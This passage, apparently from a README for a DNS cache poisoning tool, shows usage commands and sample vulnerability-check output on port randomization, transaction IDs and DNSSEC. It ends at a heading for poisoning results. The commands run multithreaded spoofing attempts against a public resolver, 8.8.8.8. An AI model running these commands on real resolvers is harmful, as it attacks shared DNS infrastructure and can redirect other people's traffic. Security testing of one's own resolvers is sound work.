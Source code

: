2. **Performance Tuning**
   ```bash
   # Increase thread count for faster testing
   sudo python3 dns_cache_poison.py \
     --target example.com \
     --nameserver 8.8.8.8 \
     --spoofed-ip 192.168.1.1 \
     --threads 20 \
     --duration 120
   ```

3. **Custom Output**
   ```bash
   # Save results to custom file
   sudo python3 dns_cache_poison.py \
     --target example.com \
     --nameserver 8.8.8.8 \
     --spoofed-ip 192.168.1.1 \
     --output custom_results.json
   ```

## Understanding Results

### Vulnerability Detection Results

The tool provides detailed information about potential vulnerabilities:

```json
{
  "vulnerability_checks": [
    {
      "check": "source_port_randomization",
      "vulnerable": false,
      "details": "Unique ports observed: 10/10"
    },
    {
      "check": "txid_randomization",
      "vulnerable": false,
      "details": "Unique TXIDs observed: 10/10"
    },
    {
      "check": "dnssec",
      "vulnerable": true,
      "details": "DNSSEC not implemented"
    }
  ]
}
```

### Cache Poisoning Results

Results from poisoning attempts include:
